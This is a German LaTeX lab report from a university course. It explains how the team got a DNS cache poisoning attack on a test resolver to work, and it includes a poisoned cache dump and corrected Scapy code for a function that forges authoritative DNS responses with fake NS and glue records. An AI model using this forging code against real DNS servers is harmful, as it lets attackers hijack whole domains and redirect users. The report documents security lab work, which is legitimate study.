\documentclass[10pt,a4paper]{article}
\usepackage[utf8]{inputenc}
\usepackage[german]{babel}
\usepackage[T1]{fontenc}
\usepackage{fullpage}
\usepackage{amssymb}
\usepackage{listings}
\usepackage{caption}
\usepackage{color}
\usepackage{amsmath}
\usepackage{graphicx}
\usepackage{nameref}
\usepackage{hyperref}
\usepackage{colortbl}
\usepackage{hhline}

\setlength{\parindent}{0pt}
\setlength{\columnsep}{0.5cm}

% Python colored syntax highlighting
\usepackage{listings}
\usepackage{color}
\usepackage{amsmath}
\definecolor{dark-gray}{RGB}{135,135,135}
\definecolor{light-blue}{RGB}{102,178,255}
\definecolor{light-orchid}{RGB}{210,120,210}
\lstdefinelanguage{python-color}{
 morekeywords={and, as, assert, break, class, continue, def, del, elif, else, except, exec, finally, for, from, global, if, import, in, is, lambda, not, or, pass, print, raise, return, try, while, with, yield, None, True, False, import},
 ndkeywords={self},
 keywordstyle=\color{blue}\bfseries,
 ndkeywordstyle=\color{light-orchid}\bfseries,
 sensitive=false,
 identifierstyle=\color{black},
 basicstyle=\sffamily ,
 morecomment=[l]{\#},
 morecomment=[s]{/*}{*/},
 morecomment=[s]{"""}{"""},
 morecomment=[l][\color{light-blue}]{@},
 morecomment=[s][\color{light-blue}]{"}{"},
 commentstyle=\itshape\color{dark-gray},
 stringstyle=\color{red}\ttfamily,
 tabsize=2,
 columns=fullflexible,
 literate={^}{{$\mspace{-3mu}\hat{\quad}\mspace{-5mu}$}}1
 {<}{$<$}2 
 {>}{$>$}2 
 {<:}{{$<\mspace{-3mu}:$}}2 
 {:>}{{$:\mspace{-3mu}>$}}2
 {+}{$+$ }2 
 {++}{{$+\mspace{-8mu}+$ }}2
 {\~}{{$\mspace{-3mu}\tilde{\quad}\mspace{-3mu}$}}1
 {\~}{$\sim$}1
 {__}{\underline{\hspace{0.5cm}}}1
 {*}{${}^{\ast}$}1 
 {.}{$\mspace{1mu}.\mspace{1mu}$}1
}
\lstset{language=python-color}
\lstset{framexleftmargin=5pt, framextopmargin=5pt, framexbottommargin=5pt, frame=tb, framerule=0pt}
\definecolor{grey}{rgb}{0.9,0.9,0.9}
%\newcounter{nalg}[section] % defines algorithm counter for chapter-level
%\renewcommand{\thenalg}{\thechapter .\arabic{nalg}} %defines appearance of the algorithm counter
%\DeclareCaptionLabelFormat{algocaption}{Algorithm \thenalg} % defines a new caption label as Algorithm x.y

\lstnewenvironment{algorithm}[1][] %defines the algorithm listing environment
{   
    %\refstepcounter{nalg} %increments algorithm number
    %\captionsetup{labelformat=algocaption,labelsep=colon} %defines the caption setup for: it ises label format as the declared caption label above and makes label and caption text to be separated by a ':'
    \lstset{ %this is the stype
        mathescape=true,
        keywordstyle=\color{black}\bfseries\em,
        keywords={,input, output, return, datatype, function, in, if, else, foreach, while, begin, end, for, endfor, from, to, do, loop, print, }, %add the keywords you want, or load a language as Rubens explains in his comment above.        
        #1 % this is to add specific settings to an usage of this environment (for instnce, the caption and referable label)
    }
}
{}

\author{Lukas Jung, Marc Narres-Schulz, Oliver Sänger, Tobias Zeimetz}
\title{Teil III: \\DNS Cache Poisoning \\Ergänzung zum 27.01.2016}

\begin{document}

\maketitle
\newpage

\section{Fehler in der Implementierung}
Nach den Vorträgen und der Besprechung unserer Probleme am 27.01 wurde von Daniel Fett und Guido Schmitz angemerkt, dass eventuell Probleme in der Virtualisierungsschicht von Virtual Box bestehen könnten. Darauf hin wurde das ganze Setup auf einen physikalischen Rechner übertragen und mehrfach erneut getestet. In späteren Tests konnte man sehen, dass das Poisoning sehr wohl erfolgreich war, jedoch nur für A-Records. Erst durch ein Debug-Level von 90 konnten alle benötigt Informationen des DNS-Servers eingesehen werden. Ein höheres Debug-Level, wie in den vorherigen Versuchen, hatte leider zur Folge, dass Speicherausnutzungen usw. angezeigt wurden. Dadurch waren alle wichtigen Informationen im Log des Servers verschollen und schwer per Hand zu finden. Ein weiterer Punkt der uns aufgefallen ist, bestand darin, dass nur ein A-Record \glqq injected\grqq\ wurde anstelle eines NS-Records. Dieses verhalten ergab sich durch mehrfache anfragen der Domain von vorherigen Angriffen. 

Im nächsten Schritt wurden die angepassten Veränderungen erneut in Vagrant eingepflegt und getestet. Anschließend wurde der Angriff mehrfach ausgeführt und konnte auch (noch mit A-Records) umgesetzt werden. Obwohl der Server nun gefälschte Antworten akzeptierte, war der Angriff nicht in vollem Umfang erfolgreich. Die gefälschten NS-Records wurden zwar vom Server abgespeichert, jedoch nur für die angefragte Subdomain. Der Server Cache nach einem \glqq erfolgreichen\grqq\ Angriff sah wie folgt aus:
\begin{center}
\begin{lstlisting}
; glue
bank.com.               172204  NS      ns01.cashparking.com.
						172204  NS      ns02.cashparking.com.
; glue
forged.bank.com.        604543  A       192.168.1.31

; authauthority
www289a.bank.com.       3036    NS      ns01.cashparking.com.
; authanswer
						36      A       184.168.221.96
; glue
www290a.bank.com.       604543  NS      forged.bank.com.
; authanswer
						86143   A       123.123.123.123
; authauthority
www291a.bank.com.       3036    NS      ns01.cashparking.com.
; authanswer
						36      A       184.168.221.96
\end{lstlisting}
\end{center}

Nach mehreren weiteren Versuchen war das \glqq injecten\grqq\ eines NS-Records letzendlich möglich. Der Grund dafür lag in mehreren kleineren Fehlern.
\begin{itemize}
	\item[1.] Bei unseren vorherigen Antworten, haben wir keine vollständige Antwort gesendet, sondern lediglich welcher NS-Server für die Domain zuständig ist.
	\item[2.] Die Flag für \glqq recursion desired\grqq\ (rd) wurde auf den Wert 1 gesetzt um die Anfrage zu spiegeln. Da im Request bereits eine rekursive Auflösung der IP angefragt wurde, musste dieses Verhalten ebenfalls vom Angreifer gespiegelt werden.
\end{itemize}

\section{Verbesserungen im Code}
Durch die aufgezählten Veränderungen, ergab sich auch ein leicht anderer Source-Code für die die Funktion \emph{forged\_ns\_response()}. Die geänderten Codezeilen werden im folgenden Listing farblich hervorgehoben, um die Fehler noch einmal deutlich zu kennzeichnen.
\begin{center}
\begin{lstlisting}
def forged_ns_response(id, target_domain, known_ns_ip):
    response = Ether() / IP(src=known_ns_ip, dst=victim_dns_ip, flags=2) / UDP(
        sport=53, dport=victim_dns_port_out) / DNS(
        id=id,  # Query ID / transaction id
        qr=1,  # Response
        opcode=0,  # QUERY
        aa=1,  # Authoritative answers, as we are sending a response
        tc=0,  # Not truncated
        rd=1,  # Mirror request flag
        ra=1,  # Recursion available
        z=0,  # Reserved and must be zero
        rcode=0,  # Response code for "ok"
        qdcount=1,  # Question record count
        nscount=1,  # Authority count
        arcount=1,  # Additional record count
        ancount=1,  # Answer count
        # AD and CD bits are defined in RFC 2535
        ad=0,  # Authentic Data
        cd=0,  # Checking Disabled
        # DNS Question Record
        qd=DNSQR(qname=target_domain, qtype='A', qclass='IN'),
        # DNS Resource Record
        an=DNSRR(rrname=target_domain, type='A', rdata=attacker_dns_ip, ttl=MAX_TTL),
        ns=DNSRR(rrname=victim_base_domain, type='NS', rdata="forged-ns.bank.com", ttl=MAX_TTL),
        ar=DNSRR(rrname="forged-ns.bank.com", type='A', rdata=attacker_dns_ip, ttl=MAX_TTL)
    )
    return response
\end{lstlisting}
\end{center}

Durch die gezeigten Änderungen waren wir letztendlich in der Lage einen gefälschten NS-Record in den Cache des Victim-DNS zu schleusen und somit alle Subdomains unter unsere Kontrolle zu bringen wie auch im folgenden Bild zu sehen ist.
\begin{figure}
	\centering
	
\includegraphics[scale=0.5]{successful_attack.jpeg} 
\end{figure}

\end{document}